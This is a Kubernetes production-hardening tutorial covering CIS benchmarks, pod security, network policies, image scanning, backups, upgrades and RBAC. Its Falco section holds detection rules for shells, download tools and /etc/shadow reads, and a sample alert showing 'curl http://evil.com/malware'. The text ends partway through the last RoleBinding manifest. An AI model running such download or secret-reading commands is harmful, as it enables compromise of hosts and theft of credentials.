


# File 46: Production Hardening Checklist

**Topic:** A comprehensive checklist for hardening Kubernetes clusters before going to production — covering security, reliability, observability, and operational readiness.

**WHY THIS MATTERS:** Running Kubernetes in development is forgiving. Running it in production is not. A missing network policy, an unscanned image, or a pod without resource limits can bring down your entire platform at 2 AM on a Sunday. This checklist is your pre-flight inspection — every item exists because someone, somewhere, learned the hard way.

---

## Story:

Think of an **Airport Pre-Flight Checklist** that every pilot completes before takeoff.

Before an Air India flight from Mumbai to Delhi leaves the gate, the pilot and co-pilot go through a meticulous checklist:

- **Fuel check** = Setting resource limits and requests on every pod. Without fuel limits, the plane cannot fly safely. Without resource limits, a single pod can consume all node resources and crash everything else.

- **Radio test** = Configuring monitoring and alerting. If the radio fails, the pilot is flying blind with no communication to air traffic control. Without Prometheus, Grafana, and alerting, your team is blind to production issues.

- **Weather radar** = Network policies. The weather radar shows dangerous storm zones to avoid. Network policies define which pods can talk to which — preventing lateral movement if an attacker compromises one service.

- **Cargo scan** = Image scanning with Trivy. Every piece of cargo is X-rayed before loading. Every container image must be scanned for CVEs before deployment. One unscanned container with a known vulnerability is like loading unchecked luggage.

- **Black box recorder** = Audit logging. The black box records every cockpit action for post-incident investigation. Kubernetes audit logs record every API call — who did what, when, and to which resource. Without it, you cannot investigate security incidents.

- **Emergency procedures** = Disaster recovery runbook. Pilots train for engine failure, cabin depressurization, and emergency landings. Your team needs runbooks for node failure, etcd corruption, and cluster-wide outages.

The plane does not take off until every item is checked. Your cluster should not go to production until every item in this checklist is verified.

---

## Example Block 1 — Security Hardening

### Section 1 — Production Checklist Mindmap



### Section 2 — CIS Benchmark with kube-bench

**WHY:** The Center for Internet Security (CIS) publishes a benchmark of 200+ security checks for Kubernetes. kube-bench automates these checks and tells you exactly which items fail and how to fix them.

```yaml
# WHY: Run kube-bench as a Job to audit cluster security
apiVersion: batch/v1
kind: Job
metadata:
  name: kube-bench-audit
  namespace: security
spec:
  template:
    spec:
      hostPID: true                     # WHY: needs host PID to inspect kubelet process
      containers:
        - name: kube-bench
          image: docker.io/aquasec/kube-bench:latest
          command: ["kube-bench", "run", "--targets", "node,policies"]
          # WHY: check node configuration and policy compliance
          volumeMounts:
            - name: var-lib-kubelet
              mountPath: /var/lib/kubelet
              readOnly: true            # WHY: read kubelet config without modifying
            - name: etc-systemd
              mountPath: /etc/systemd
              readOnly: true
            - name: etc-kubernetes
              mountPath: /etc/kubernetes
              readOnly: true            # WHY: read API server and controller configs
      restartPolicy: Never
      volumes:
        - name: var-lib-kubelet
          hostPath:
            path: /var/lib/kubelet
        - name: etc-systemd
          hostPath:
            path: /etc/systemd
        - name: etc-kubernetes
          hostPath:
            path: /etc/kubernetes
  backoffLimit: 0                       # WHY: don't retry — it's a one-shot audit
```

```
SYNTAX:
  kubectl logs job/kube-bench-audit -n security

EXPECTED OUTPUT:
  [INFO] 4 Worker Node Security Configuration
  [INFO] 4.1 Worker Node Configuration Files
  [PASS] 4.1.1 Ensure that the kubelet service file permissions are set to 600 or more restrictive
  [PASS] 4.1.2 Ensure that the kubelet service file ownership is set to root:root
  [FAIL] 4.1.3 Ensure that the proxy kubeconfig file permissions are set to 600 or more restrictive
  [PASS] 4.1.4 Ensure that the proxy kubeconfig file ownership is set to root:root

  [INFO] 4.2 Kubelet
  [PASS] 4.2.1 Ensure that the --anonymous-auth argument is set to false
  [FAIL] 4.2.2 Ensure that the --authorization-mode argument is not set to AlwaysAllow
  [PASS] 4.2.3 Ensure that the --client-ca-file argument is set as appropriate

  == Summary total ==
  68 checks PASS
  12 checks FAIL
  20 checks WARN
  0 checks INFO

  == Remediations ==
  4.1.3 Run the below command on each worker node:
        chmod 600 /etc/kubernetes/proxy.conf
  4.2.2 Edit the kubelet configuration file and set:
        authorization:
          mode: Webhook
```

### Section 3 — Pod Security Standards

**WHY:** Pod Security Standards (PSS) replace the deprecated PodSecurityPolicy. They define three profiles — Privileged, Baseline, and Restricted — enforced at the namespace level. Production namespaces should use "restricted" to prevent privilege escalation, host access, and running as root.

```yaml
# WHY: Enforce restricted Pod Security Standard on production namespace
apiVersion: v1
kind: Namespace
metadata:
  name: production
  labels:
    # WHY: "enforce" means pods violating the standard are REJECTED
    pod-security.kubernetes.io/enforce: restricted
    pod-security.kubernetes.io/enforce-version: latest

    # WHY: "warn" shows a warning but still allows (useful for migration)
    pod-security.kubernetes.io/warn: restricted
    pod-security.kubernetes.io/warn-version: latest

    # WHY: "audit" logs violations to the audit log without blocking
    pod-security.kubernetes.io/audit: restricted
    pod-security.kubernetes.io/audit-version: latest
---
# WHY: A pod that PASSES the restricted standard
apiVersion: v1
kind: Pod
metadata:
  name: secure-app
  namespace: production
spec:
  securityContext:
    runAsNonRoot: true                  # WHY: restricted requires non-root
    seccompProfile:
      type: RuntimeDefault              # WHY: restricted requires seccomp profile
  containers:
    - name: app
      image: registry.example.com/app:v1
      securityContext:
        allowPrivilegeEscalation: false # WHY: restricted requires this to be false
        readOnlyRootFilesystem: true    # WHY: prevent writes to container filesystem
        runAsNonRoot: true
        runAsUser: 1000                 # WHY: run as non-root user
        capabilities:
          drop:
            - ALL                       # WHY: restricted requires dropping all capabilities
      resources:
        requests:
          cpu: 100m
          memory: 128Mi
        limits:
          cpu: 500m
          memory: 256Mi
      volumeMounts:
        - name: tmp
          mountPath: /tmp               # WHY: app needs writable tmp dir
  volumes:
    - name: tmp
      emptyDir: {}                      # WHY: writable volume since rootfs is read-only
```

```
SYNTAX:
  kubectl apply -f insecure-pod.yaml -n production

EXPECTED OUTPUT (rejected by restricted PSS):
  Error from server (Forbidden): error when creating "insecure-pod.yaml":
  pods "insecure-pod" is forbidden: violates PodSecurity "restricted:latest":
    allowPrivilegeEscalation != false (container "app" must set
    securityContext.allowPrivilegeEscalation=false),
    unrestricted capabilities (container "app" must set
    securityContext.capabilities.drop=["ALL"]),
    runAsNonRoot != true (pod or container "app" must set
    securityContext.runAsNonRoot=true),
    seccompProfile (pod or container "app" must set
    securityContext.seccompProfile.type to "RuntimeDefault" or "Localhost")
```

### Section 4 — Network Policy Default Deny

**WHY:** By default, all pods can communicate with all other pods. This means a compromised pod in the "marketing" namespace can reach the "payments" database. Default deny blocks all traffic, then you explicitly allow only what is needed.

```yaml
# WHY: Default deny ALL ingress and egress in production namespace
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: default-deny-all
  namespace: production
spec:
  podSelector: {}                       # WHY: empty selector = applies to ALL pods
  policyTypes:
    - Ingress
    - Egress
  # WHY: no ingress or egress rules = deny everything
  # Pods cannot send or receive ANY traffic until explicit allow policies are created
---
# WHY: Allow DNS resolution (required for service discovery)
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: allow-dns
  namespace: production
spec:
  podSelector: {}                       # WHY: all pods need DNS
  policyTypes:
    - Egress
  egress:
    - to:
        - namespaceSelector:
            matchLabels:
              kubernetes.io/metadata.name: kube-system
      ports:
        - protocol: UDP
          port: 53                      # WHY: DNS uses UDP port 53
        - protocol: TCP
          port: 53                      # WHY: DNS fallback on TCP for large responses
---
# WHY: Allow api-server to talk to database — explicit allow
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: api-to-database
  namespace: production
spec:
  podSelector:
    matchLabels:
      app: postgres                     # WHY: this policy applies to the database pod
  policyTypes:
    - Ingress
  ingress:
    - from:
        - podSelector:
            matchLabels:
              app: api-server           # WHY: only api-server can reach the database
      ports:
        - protocol: TCP
          port: 5432                    # WHY: PostgreSQL port
```

---

## Example Block 2 — Image Security and Runtime Protection

### Section 5 — Image Scanning with Trivy

**WHY:** Container images contain operating system packages and application dependencies. These can have known vulnerabilities (CVEs). Scanning images before deployment prevents known-exploitable software from reaching production.

```yaml
# WHY: Trivy scan integrated into admission control via Kyverno
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: check-image-vulnerabilities
spec:
  validationFailureAction: Enforce     # WHY: block images that fail the scan
  background: false
  rules:
    - name: scan-for-critical-cves
      match:
        any:
          - resources:
              kinds:
                - Pod
              namespaces:
                - production
                - staging
      verifyImages:
        - imageReferences:
            - "*"                       # WHY: scan ALL images
          attestations:
            - type: https://cosign.sigstore.dev/attestation/vuln/v1
              conditions:
                - all:
                    - key: "{{ vulnCount.critical }}"
                      operator: Equals
                      value: "0"        # WHY: zero critical CVEs allowed
                    - key: "{{ vulnCount.high }}"
                      operator: LessThan
                      value: "5"        # WHY: allow up to 4 high CVEs (with tracking)
```

```
SYNTAX:
  trivy image --severity HIGH,CRITICAL registry.example.com/myapp:v2.0

FLAGS:
  --severity        Comma-separated list of severities to report
  --exit-code       Exit code when vulnerabilities are found (0=pass, 1=fail)
  --ignore-unfixed  Skip vulnerabilities with no available fix
  --format          Output format (table, json, sarif)
  --output          Write results to file

EXPECTED OUTPUT:
  registry.example.com/myapp:v2.0 (debian 12.4)
  =============================================
  Total: 3 (HIGH: 2, CRITICAL: 1)

  ┌──────────────────┬────────────────┬──────────┬───────────────────┬───────────────┬──────────────────────────────┐
  │     Library      │ Vulnerability  │ Severity │ Installed Version │ Fixed Version │            Title             │
  ├──────────────────┼────────────────┼──────────┼───────────────────┼───────────────┼──────────────────────────────┤
  │ libssl3          │ CVE-2024-1234  │ CRITICAL │ 3.0.11-1          │ 3.0.13-1      │ OpenSSL: Buffer overflow in  │
  │                  │                │          │                   │               │ X.509 certificate parsing    │
  │ curl             │ CVE-2024-5678  │ HIGH     │ 7.88.1-10         │ 7.88.1-11     │ curl: HTTP/2 header injection│
  │ zlib1g           │ CVE-2024-9012  │ HIGH     │ 1.2.13-1          │ 1.2.13-2      │ zlib: heap buffer overflow   │
  └──────────────────┴────────────────┴──────────┴───────────────────┴───────────────┴──────────────────────────────┘
```

### Section 6 — Runtime Security with Falco

**WHY:** Image scanning catches vulnerabilities at build time. Falco catches malicious behavior at runtime — a shell spawned inside a container, a binary downloaded from the internet, or a sensitive file read. It is your security camera inside the running container.

```yaml
# WHY: Falco DaemonSet — runs on every node to monitor syscalls
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: falco
  namespace: falco
spec:
  selector:
    matchLabels:
      app: falco
  template:
    metadata:
      labels:
        app: falco
    spec:
      serviceAccountName: falco
      hostNetwork: true                 # WHY: monitor all network activity on the node
      hostPID: true                     # WHY: monitor all processes on the node
      containers:
        - name: falco
          image: docker.io/falcosecurity/falco:0.37.1
          securityContext:
            privileged: true            # WHY: needs privileged to load eBPF probe
          env:
            - name: FALCO_BPF_PROBE
              value: ""                 # WHY: use modern eBPF driver instead of kernel module
          volumeMounts:
            - name: proc
              mountPath: /host/proc
              readOnly: true            # WHY: read process info from host
            - name: dev
              mountPath: /host/dev
              readOnly: true
            - name: falco-config
              mountPath: /etc/falco
      volumes:
        - name: proc
          hostPath:
            path: /proc
        - name: dev
          hostPath:
            path: /dev
        - name: falco-config
          configMap:
            name: falco-rules
---
# WHY: Custom Falco rules for Kubernetes-specific threats
apiVersion: v1
kind: ConfigMap
metadata:
  name: falco-rules
  namespace: falco
data:
  custom-rules.yaml: |
    # WHY: Alert when someone opens a shell in a production container
    - rule: Shell Spawned in Production Container
      desc: Detect shell spawning in production namespace containers
      condition: >
        spawned_process and
        container and
        proc.name in (bash, sh, zsh, dash, csh) and
        k8s.ns.name = "production"
      output: >
        Shell spawned in production container
        (user=%user.name pod=%k8s.pod.name ns=%k8s.ns.name
         container=%container.name shell=%proc.name
         parent=%proc.pname cmdline=%proc.cmdline)
      priority: WARNING
      tags: [container, shell, mitre_execution]

    # WHY: Alert when a binary is downloaded and executed
    - rule: Binary Downloaded and Executed
      desc: Detect download of executable followed by execution
      condition: >
        spawned_process and
        container and
        (proc.name in (wget, curl) or
         (proc.name = python and proc.cmdline contains "urllib"))
      output: >
        Download tool executed in container
        (user=%user.name pod=%k8s.pod.name ns=%k8s.ns.name
         command=%proc.cmdline container=%container.name)
      priority: CRITICAL
      tags: [container, network, mitre_command_and_control]

    # WHY: Alert on sensitive file access
    - rule: Sensitive File Read
      desc: Detect reading of sensitive files like /etc/shadow
      condition: >
        open_read and
        container and
        fd.name in (/etc/shadow, /etc/passwd, /etc/kubernetes/pki/ca.crt)
      output: >
        Sensitive file read in container
        (user=%user.name file=%fd.name pod=%k8s.pod.name
         ns=%k8s.ns.name container=%container.name)
      priority: WARNING
      tags: [container, filesystem, mitre_credential_access]
```

```
SYNTAX:
  kubectl logs -n falco -l app=falco --tail=20

EXPECTED OUTPUT:
  15:30:45.123456789: Warning Shell spawned in production container
    (user=root pod=api-server-abc12 ns=production container=api
     shell=bash parent=runc cmdline=bash)
  15:31:12.987654321: Critical Download tool executed in container
    (user=root pod=api-server-abc12 ns=production
     command=curl http://evil.com/malware container=api)
```

### Section 7 — Secret Encryption at Rest

**WHY:** By default, Kubernetes stores Secrets in etcd as base64-encoded plaintext. Anyone with access to etcd backups can read every Secret. Encryption at rest ensures Secrets are encrypted with a key before being written to etcd.

```yaml
# WHY: EncryptionConfiguration for the API server
# This file is referenced by --encryption-provider-config flag on kube-apiserver
apiVersion: apiserver.config.k8s.io/v1
kind: EncryptionConfiguration
resources:
  - resources:
      - secrets                         # WHY: encrypt Secrets
      - configmaps                      # WHY: optionally encrypt ConfigMaps too
    providers:
      # WHY: First provider is used for encryption, all are tried for decryption
      - aescbc:
          keys:
            - name: key-2024            # WHY: named key for rotation tracking
              secret: <base64-encoded-32-byte-key>
              # WHY: AES-CBC with 256-bit key — strong symmetric encryption
      - identity: {}
        # WHY: identity provider (no encryption) as fallback for reading
        # old unencrypted secrets during migration
```

```
SYNTAX:
  # Verify secrets are encrypted in etcd
  ETCDCTL_API=3 etcdctl get /registry/secrets/production/database-credentials \
    --endpoints=https://127.0.0.1:2379 \
    --cacert=/etc/kubernetes/pki/etcd/ca.crt \
    --cert=/etc/kubernetes/pki/etcd/server.crt \
    --key=/etc/kubernetes/pki/etcd/server.key | hexdump -C | head

EXPECTED OUTPUT (encrypted — should NOT show readable text):
  00000000  2f 72 65 67 69 73 74 72  79 2f 73 65 63 72 65 74  |/registry/secret|
  00000010  73 2f 70 72 6f 64 75 63  74 69 6f 6e 2f 64 61 74  |s/production/dat|
  00000020  61 62 61 73 65 2d 63 72  65 64 65 6e 74 69 61 6c  |abase-credential|
  00000030  73 0a 6b 38 73 3a 65 6e  63 3a 61 65 73 63 62 63  |s.k8s:enc:aescbc|
  00000040  3a 76 31 3a 6b 65 79 2d  32 30 32 34 3a bb 12 a3  |:v1:key-2024:...|
  # WHY: "k8s:enc:aescbc:v1" prefix proves encryption is working
  # If you see plain base64 text, encryption is NOT configured
```

---

## Example Block 3 — Observability and Golden Signals

### Section 8 — The Four Golden Signals

**WHY:** Google's SRE book defines four golden signals that capture the health of any service. If you monitor only these four, you will catch 95% of production issues.

```yaml
# WHY: PrometheusRule for the four golden signals
apiVersion: monitoring.coreos.com/v1
kind: PrometheusRule
metadata:
  name: golden-signals-alerts
  namespace: monitoring
spec:
  groups:
    - name: golden-signals
      rules:
        # WHY: SIGNAL 1 — Latency (how long requests take)
        - alert: HighLatencyP99
          expr: |
            histogram_quantile(0.99,
              sum(rate(http_request_duration_seconds_bucket{
                namespace="production"
              }[5m])) by (le, service))
            > 0.5
          for: 5m                       # WHY: alert only if sustained for 5 minutes
          labels:
            severity: warning
          annotations:
            summary: "High p99 latency for {{ $labels.service }}"
            description: "p99 latency is {{ $value }}s (threshold: 0.5s)"
            runbook_url: "https://wiki.example.com/runbooks/high-latency"

        # WHY: SIGNAL 2 — Traffic (how many requests per second)
        - alert: TrafficAnomalyDrop
          expr: |
            sum(rate(http_requests_total{namespace="production"}[5m])) by (service)
            < 0.1 * sum(rate(http_requests_total{namespace="production"}[5m] offset 1d)) by (service)
          for: 10m
          labels:
            severity: critical
          annotations:
            summary: "Traffic dropped 90% for {{ $labels.service }}"
            description: "Current RPS is 10% of same time yesterday — possible outage"

        # WHY: SIGNAL 3 — Errors (what fraction of requests fail)
        - alert: HighErrorRate
          expr: |
            sum(rate(http_requests_total{
              namespace="production",
              status=~"5.."
            }[5m])) by (service)
            /
            sum(rate(http_requests_total{
              namespace="production"
            }[5m])) by (service)
            > 0.01
          for: 5m
          labels:
            severity: critical
          annotations:
            summary: "Error rate > 1% for {{ $labels.service }}"
            description: "{{ $value | humanizePercentage }} of requests returning 5xx"

        # WHY: SIGNAL 4 — Saturation (how full is the system)
        - alert: HighCPUSaturation
          expr: |
            sum(rate(container_cpu_usage_seconds_total{
              namespace="production"
            }[5m])) by (pod)
            /
            sum(kube_pod_container_resource_limits{
              namespace="production",
              resource="cpu"
            }) by (pod)
            > 0.85
          for: 10m
          labels:
            severity: warning
          annotations:
            summary: "CPU saturation > 85% for pod {{ $labels.pod }}"
            description: "Pod is approaching CPU limit — consider scaling"

        - alert: HighMemorySaturation
          expr: |
            sum(container_memory_working_set_bytes{
              namespace="production"
            }) by (pod)
            /
            sum(kube_pod_container_resource_limits{
              namespace="production",
              resource="memory"
            }) by (pod)
            > 0.90
          for: 5m
          labels:
            severity: critical
          annotations:
            summary: "Memory saturation > 90% for pod {{ $labels.pod }}"
            description: "Pod is at risk of OOMKill — increase memory limit or fix leak"
```

### Section 9 — Audit Logging

**WHY:** Audit logs record every API request — who created a pod, who deleted a secret, who escalated privileges. Without audit logs, you cannot investigate security incidents, comply with regulations, or understand what happened during an outage.

```yaml
# WHY: Audit policy — what to log and at what detail level
apiVersion: audit.k8s.io/v1
kind: Policy
rules:
  # WHY: Log all authentication failures at full detail
  - level: RequestResponse
    users: ["system:anonymous"]
    verbs: ["*"]
    resources:
      - group: ""
        resources: ["*"]

  # WHY: Log Secret access at metadata level (don't log Secret contents!)
  - level: Metadata
    resources:
      - group: ""
        resources: ["secrets"]
    # WHY: "Metadata" logs who/what/when but NOT the Secret data

  # WHY: Log all write operations at request level
  - level: Request
    verbs: ["create", "update", "patch", "delete"]
    resources:
      - group: ""
        resources: ["pods", "services", "configmaps"]
      - group: "apps"
        resources: ["deployments", "statefulsets", "daemonsets"]
      - group: "rbac.authorization.k8s.io"
        resources: ["roles", "rolebindings", "clusterroles", "clusterrolebindings"]
    # WHY: capture the full request body for writes (for forensics)

  # WHY: Log exec/attach (interactive access) at RequestResponse level
  - level: RequestResponse
    resources:
      - group: ""
        resources: ["pods/exec", "pods/attach", "pods/portforward"]
    # WHY: someone exec'ing into a pod is a high-risk action

  # WHY: Don't log read-only health checks (too noisy)
  - level: None
    users: ["system:kube-proxy"]
    verbs: ["watch"]
    resources:
      - group: ""
        resources: ["endpoints", "services"]

  # WHY: Default — log everything else at metadata level
  - level: Metadata
```

---

## Example Block 4 — Backup and Disaster Recovery

### Section 10 — Backup Strategy with Velero

**WHY:** etcd contains all cluster state. Persistent volumes contain application data. Without backups, a corrupted etcd or accidentally deleted namespace means permanent data loss.

```yaml
# WHY: Velero Schedule — automated daily backups
apiVersion: velero.io/v1
kind: Schedule
metadata:
  name: daily-production-backup
  namespace: velero
spec:
  schedule: "0 2 * * *"                 # WHY: 2 AM daily (low traffic window)
  template:
    includedNamespaces:
      - production
      - databases
      - monitoring                      # WHY: backup critical namespaces only
    excludedResources:
      - events
      - pods                            # WHY: pods are ephemeral, don't backup
    storageLocation: default            # WHY: backup to configured S3/GCS bucket
    volumeSnapshotLocations:
      - default                         # WHY: snapshot PVs using cloud provider snapshots
    ttl: 720h                           # WHY: retain backups for 30 days
    snapshotVolumes: true               # WHY: include persistent volume snapshots
    defaultVolumesToRestic: false        # WHY: use cloud snapshots, not Restic (faster)
    labelSelector:
      matchExpressions:
        - key: velero.io/exclude
          operator: DoesNotExist        # WHY: skip resources labeled for exclusion
---
# WHY: Velero Restore — recover from backup
apiVersion: velero.io/v1
kind: Restore
metadata:
  name: restore-production-20250315
  namespace: velero
spec:
  backupName: daily-production-backup-20250315020000
  includedNamespaces:
    - production                        # WHY: restore only production (not monitoring)
  restorePVs: true                      # WHY: restore persistent volume data
  preserveNodePorts: true               # WHY: keep same NodePort assignments
  existingResourcePolicy: update        # WHY: update existing resources, don't skip
```

```
SYNTAX:
  velero backup get

EXPECTED OUTPUT:
  NAME                                        STATUS      ERRORS   WARNINGS   CREATED                         EXPIRES
  daily-production-backup-20250315020000       Completed   0        2          2025-03-15 02:00:00 +0530 IST   29d
  daily-production-backup-20250314020000       Completed   0        1          2025-03-14 02:00:00 +0530 IST   28d
  daily-production-backup-20250313020000       Completed   0        0          2025-03-13 02:00:00 +0530 IST   27d

SYNTAX:
  velero restore create --from-backup daily-production-backup-20250315020000

FLAGS:
  --include-namespaces    Restore only specific namespaces
  --restore-volumes       Restore persistent volume data (default: true)
  --existing-resource-policy  "none" (skip) or "update" (overwrite)

EXPECTED OUTPUT:
  Restore request "restore-production-20250315-1" submitted successfully.
  Run `velero restore describe restore-production-20250315-1` for more details.
```

---

## Example Block 5 — Cluster Upgrade Strategy

### Section 11 — Upgrade Procedure Flowchart



### Section 12 — Node Pool Rotation Upgrade

**WHY:** In-place node upgrades (drain + upgrade + uncordon) are risky — if the upgrade fails, the node is in an inconsistent state. Node pool rotation is safer: create a new pool with the new version, drain old nodes to new pool, then delete the old pool.

```
SYNTAX:
  # Step 1: Create new node pool with updated version
  gcloud container node-pools create pool-v130 \
    --cluster=production-cluster \
    --machine-type=e2-standard-8 \
    --num-nodes=3 \
    --node-version=1.30.1-gke.1234 \
    --enable-autoscaling \
    --min-nodes=3 \
    --max-nodes=10

EXPECTED OUTPUT:
  Creating node pool pool-v130... done.
  NAME        MACHINE_TYPE    NODE_VERSION       NUM_NODES  STATUS
  pool-v130   e2-standard-8   1.30.1-gke.1234    3          RUNNING

SYNTAX:
  # Step 2: Cordon old pool nodes (prevent new pod scheduling)
  kubectl cordon -l cloud.google.com/gke-nodepool=pool-v129

EXPECTED OUTPUT:
  node/gke-prod-pool-v129-abc123 cordoned
  node/gke-prod-pool-v129-def456 cordoned
  node/gke-prod-pool-v129-ghi789 cordoned

SYNTAX:
  # Step 3: Drain old nodes one at a time (respects PDB)
  kubectl drain gke-prod-pool-v129-abc123 \
    --ignore-daemonsets \
    --delete-emptydir-data \
    --grace-period=300 \
    --timeout=600s

FLAGS:
  --ignore-daemonsets       Don't fail on DaemonSet-managed pods (they run on all nodes)
  --delete-emptydir-data    Allow deletion of pods using emptyDir volumes
  --grace-period=300        Give pods 5 minutes to gracefully shutdown
  --timeout=600s            Wait up to 10 minutes for the drain to complete
  --pod-selector            Only drain pods matching a label selector
  --dry-run=client          Preview what would be drained without doing it

EXPECTED OUTPUT:
  node/gke-prod-pool-v129-abc123 already cordoned
  evicting pod production/api-server-abc12-xyz
  evicting pod production/worker-def34-uvw
  pod/api-server-abc12-xyz evicted
  pod/worker-def34-uvw evicted
  node/gke-prod-pool-v129-abc123 drained

SYNTAX:
  # Step 4: Verify all pods are healthy on new nodes
  kubectl get pods -n production -o wide --field-selector=status.phase!=Running

EXPECTED OUTPUT:
  No resources found in production namespace.
  # WHY: all pods are Running — drain was successful

SYNTAX:
  # Step 5: Delete old node pool
  gcloud container node-pools delete pool-v129 \
    --cluster=production-cluster \
    --quiet

EXPECTED OUTPUT:
  Deleting node pool pool-v129... done.
```

---

## Example Block 6 — DR Runbook and Incident Response

### Section 13 — Disaster Recovery Runbook Template

**WHY:** During an outage, engineers are stressed and make mistakes. A runbook eliminates guesswork — it tells you exactly what to check, in what order, and what commands to run. Write it when you are calm, use it when you are not.

```yaml
# WHY: DR Runbook stored as a ConfigMap for easy access during incidents
apiVersion: v1
kind: ConfigMap
metadata:
  name: dr-runbook
  namespace: operations
data:
  etcd-corruption.md: |
    # Runbook: etcd Corruption Recovery
    ## Severity: P0 — Complete cluster failure
    ## Symptoms:
    - API server returning "etcdserver: no leader" errors
    - kubectl commands timing out
    - All controllers stopped reconciling

    ## Steps:
    1. STOP all etcd members: systemctl stop etcd (on each control plane node)
    2. Identify the healthy member with the latest revision
    3. Restore from the latest etcd snapshot:
       ETCDCTL_API=3 etcdctl snapshot restore /backup/etcd-snapshot.db \
         --data-dir=/var/lib/etcd-restored \
         --initial-cluster="cp1=https://10.0.1.1:2380" \
         --initial-advertise-peer-urls="https://10.0.1.1:2380" \
         --name=cp1
    4. Update etcd systemd unit to point to /var/lib/etcd-restored
    5. Start etcd: systemctl start etcd
    6. Verify: etcdctl endpoint health
    7. Verify: kubectl get nodes

  namespace-deleted.md: |
    # Runbook: Accidental Namespace Deletion
    ## Severity: P1 — Service outage for affected namespace
    ## Symptoms:
    - All pods, services, and resources in a namespace are gone
    - kubectl get all -n <namespace> returns "No resources found"

    ## Steps:
    1. Check if the namespace still exists (might be in Terminating state):
       kubectl get namespace <namespace>
    2. Restore from latest Velero backup:
       velero restore create --from-backup daily-production-backup-<latest> \
         --include-namespaces <namespace>
    3. Monitor restore progress:
       velero restore describe <restore-name>
    4. Verify all pods are running:
       kubectl get pods -n <namespace>
    5. Verify services are accessible:
       kubectl get svc -n <namespace>
    6. Run application smoke tests
    7. Post-incident: Add RBAC to prevent namespace deletion by non-admins

  node-failure.md: |
    # Runbook: Node Failure
    ## Severity: P2 — Reduced capacity, possible pod disruption
    ## Symptoms:
    - kubectl get nodes shows a node as NotReady
    - Pods on the failed node are in Terminating or Unknown state

    ## Steps:
    1. Check node status:
       kubectl describe node <node-name> | grep -A5 Conditions
    2. Check if pods have been rescheduled (wait 5 minutes for pod eviction timeout):
       kubectl get pods --all-namespaces --field-selector spec.nodeName=<node-name>
    3. If pods are stuck, force delete:
       kubectl delete pod <pod-name> -n <namespace> --grace-period=0 --force
    4. Investigate node failure (cloud console or SSH if possible)
    5. If node is recoverable: reboot and uncordon
       If node is unrecoverable: drain and delete
       kubectl drain <node-name> --ignore-daemonsets --delete-emptydir-data --force
       kubectl delete node <node-name>
    6. Verify cluster autoscaler provisions a replacement node
    7. Verify all pods are healthy:
       kubectl get pods --all-namespaces | grep -v Running | grep -v Completed
```

### Section 14 — RBAC Hardening

**WHY:** The principle of least privilege — every user and service account should have exactly the permissions they need and nothing more. A developer who can deploy to staging should not be able to delete production secrets.

```yaml
# WHY: Read-only role for developers in production
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: production-viewer
  namespace: production
rules:
  - apiGroups: [""]
    resources: ["pods", "services", "configmaps", "endpoints"]
    verbs: ["get", "list", "watch"]     # WHY: read-only access
  - apiGroups: ["apps"]
    resources: ["deployments", "replicasets", "statefulsets"]
    verbs: ["get", "list", "watch"]
  - apiGroups: [""]
    resources: ["pods/log"]
    verbs: ["get"]                      # WHY: allow reading pod logs for debugging
  # WHY: explicitly NO access to secrets, exec, or delete
---
# WHY: Deploy role for CI/CD service account — can update deployments but not RBAC
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: production-deployer
  namespace: production
rules:
  - apiGroups: ["apps"]
    resources: ["deployments"]
    verbs: ["get", "list", "patch", "update"]  # WHY: can update image tags
    # WHY: no "create" or "delete" — only modify existing deployments
  - apiGroups: [""]
    resources: ["configmaps"]
    verbs: ["get", "list", "create", "update", "patch"]
  - apiGroups: [""]
    resources: ["secrets"]
    verbs: ["get", "list"]              # WHY: read secrets for deployment, cannot create/delete
---
# WHY: Bind developer group to viewer role
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: developer-production-view
  namespace: production
subjects:
  - kind: Group
    name: developers                    # WHY: OIDC group from identity provider
    apiGroup: rbac.authorization.k8s.io
roleRef:
  kind: Role
  name: production-viewer
  apiGroup: rbac.authorization.k8s.io
---
# WHY: Bind CI/CD service account to deployer role
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: cicd-production-deploy
  namespace: production
